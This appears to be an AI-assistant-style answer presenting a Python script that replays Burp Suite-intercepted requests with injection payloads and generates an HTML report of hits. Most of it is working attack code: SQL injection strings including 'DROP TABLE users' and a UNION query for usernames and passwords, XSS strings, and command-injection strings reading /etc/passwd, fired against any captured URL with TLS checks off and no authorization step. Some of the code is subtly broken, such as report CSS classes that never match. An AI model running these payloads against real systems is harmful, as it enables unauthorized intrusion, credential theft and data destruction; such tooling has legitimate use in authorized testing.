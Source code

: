 Here's an **advanced version** of the script that not only **automates vulnerability detection** but also **generates an interactive HTML report** 🚀  

---

## **🔥 New Features**
✅ **Extracts and modifies intercepted HTTP requests via Burp Suite**  
✅ **Tests for SQL Injection, XSS, and Command Injection**  
✅ **Generates an HTML report with interactive tables**  

---

## **🛠️ Setup Requirements**
1. **Enable Burp Suite API:**  
   - Go to **Burp Suite → User Options → Misc**  
   - Enable API listening on **http://127.0.0.1:1337**  
2. **Install dependencies:**  
   ```bash
   pip install requests jinja2
   ```

---

## **🚀 Python Script: Automated Attack & HTML Report**
```python
import requests
import json
import os
from jinja2 import Template

# Burp Suite API & Proxy Configuration
BURP_PROXY = "http://127.0.0.1:8080"
BURP_API_URL = "http://127.0.0.1:1337/v0.1"

# Attack Payloads
ATTACK_PAYLOADS = {
    "SQLi": ["' OR 1=1 --", "'; DROP TABLE users; --", "' UNION SELECT null, username, password FROM users --"],
    "XSS": ['<script>alert(1)</script>', '" onmouseover="alert(1)"', "'';!--\"<XSS>=&{()}"],
    "CMD": ["; ls -la", "&& whoami", "| cat /etc/passwd"]
}

# Headers to mimic browser behavior
HEADERS = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Content-Type": "application/x-www-form-urlencoded"
}

# Log File
LOG_FILE = "burp_attack_log.json"
REPORT_FILE = "burp_attack_report.html"


def log_vulnerability(url, field, payload, attack_type, response):
    """Logs vulnerabilities to a JSON file for report generation."""
    log_entry = {
        "attack_type": attack_type,
        "url": url,
        "field": field,
        "payload": payload,
        "response": response[:200]
    }

    # Append to JSON log
    if os.path.exists(LOG_FILE):
        with open(LOG_FILE, "r") as file:
            data = json.load(file)
    else:
        data = []

    data.append(log_entry)

    with open(LOG_FILE, "w") as file:
        json.dump(data, file, indent=4)

    print(f"[!] {attack_type} detected on {field} with payload: {payload}")


def get_burp_intercepted_requests():
    """Fetch intercepted requests from Burp Suite."""
    response = requests.get(f"{BURP_API_URL}/http/requests", headers={"Accept": "application/json"})

    if response.status_code != 200:
        print("[ERROR] Could not fetch intercepted requests.")
        return []

    return response.json()


def attack_intercepted_requests():
    """Modify and replay intercepted requests with attack payloads."""
    intercepted_requests = get_burp_intercepted_requests()

    for req in intercepted_requests:
        if "request" not in req:
            continue

        url = req["url"]
        method = req["method"]
        original_data = req["body"] if "body" in req else None

        if not original_data:
            continue

        for attack_type, payloads in ATTACK_PAYLOADS.items():
            for payload in payloads:
                modified_data = original_data
                for param in original_data.split("&"):
                    key, value = param.split("=")
                    modified_data = modified_data.replace(value, payload)

                print(f"[*] Testing {attack_type} on {url} with payload: {payload}")

                if method == "POST":
                    response = requests.post(url, headers=HEADERS, data=modified_data, proxies={"http": BURP_PROXY, "https": BURP_PROXY}, verify=False)
                else:
                    response = requests.get(f"{url}?{modified_data}", headers=HEADERS, proxies={"http": BURP_PROXY, "https": BURP_PROXY}, verify=False)

                if attack_type == "SQLi" and ("error in your SQL syntax" in response.text.lower() or "mysql_fetch" in response.text.lower()):
                    log_vulnerability(url, key, payload, "SQL Injection", response.text)
                elif attack_type == "XSS" and payload in response.text:
                    log_vulnerability(url, key, payload, "XSS", response.text)
                elif attack_type == "CMD" and "root" in response.text.lower():
                    log_vulnerability(url, key, payload, "Command Injection", response.text)


def generate_html_report():
    """Generates an HTML report based on the attack results."""
    if not os.path.exists(LOG_FILE):
        print("[INFO] No vulnerabilities found. Skipping report generation.")
        return

    with open(LOG_FILE, "r") as file:
        data = json.load(file)

    template = Template("""
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Burp Suite Attack Report</title>
        <style>
            body { font-family: Arial, sans-serif; margin: 40px; }
            table { width: 100%; border-collapse: collapse; margin-top: 20px; }
            th, td { border: 1px solid black; padding: 10px; text-align: left; }
            th { background-color: #333; color: white; }
            .sql { background-color: #ffcccc; }
            .xss { background-color: #ffffcc; }
            .cmd { background-color: #ccffcc; }
        </style>
    </head>
    <body>
        <h1>Burp Suite Attack Report</h1>
        <table>
            <tr>
                <th>Attack Type</th>
                <th>URL</th>
                <th>Field</th>
                <th>Payload</th>
                <th>Response Snippet</th>
            </tr>
            {% for entry in data %}
            <tr class="{{ entry.attack_type.lower() }}">
                <td>{{ entry.attack_type }}</td>
                <td>{{ entry.url }}</td>
                <td>{{ entry.field }}</td>
                <td>{{ entry.payload }}</td>
                <td>{{ entry.response[:100] }}...</td>
            </tr>
            {% endfor %}
        </table>
    </body>
    </html>
    """)

    with open(REPORT_FILE, "w") as report_file:
        report_file.write(template.render(data=data))

    print(f"[✔] HTML report generated: {REPORT_FILE}")


def main():
    print("[*] Fetching intercepted requests from Burp Suite...")
    attack_intercepted_requests()
    generate_html_report()


if __name__ == "__main__":
    main()
```

---

## **🔍 How It Works**
1. **Extracts intercepted requests** from Burp Suite API.  
2. **Injects SQL Injection, XSS, and Command Injection payloads** into HTTP requests.  
3. **Sends modified requests** through Burp Suite’s proxy.  
4. **Detects successful attacks** and logs them in `burp_attack_log.json`.  
5. **Generates an interactive HTML report** (`burp_attack_report.html`).  

---

## **📜 Example Report Output**
| Attack Type | URL | Field | Payload | Response Snippet |
|------------|------|-------|---------|------------------|
| SQL Injection | `https://example.com/login` | `username` | `' OR 1=1 --` | `SQL syntax error near...` |
| XSS | `https://example.com/search` | `q` | `<script>alert(1)</script>` | `<script>alert(1)</script>` found in response |
| CMD Injection | `https://example.com/ping` | `input` | `&& whoami` | `root` detected in response |

---

## **🔥 Next Steps**
✅ **Add CSRF testing**  
✅ **Integrate with Selenium for UI-based attacks**  
✅ **Export report as PDF**  
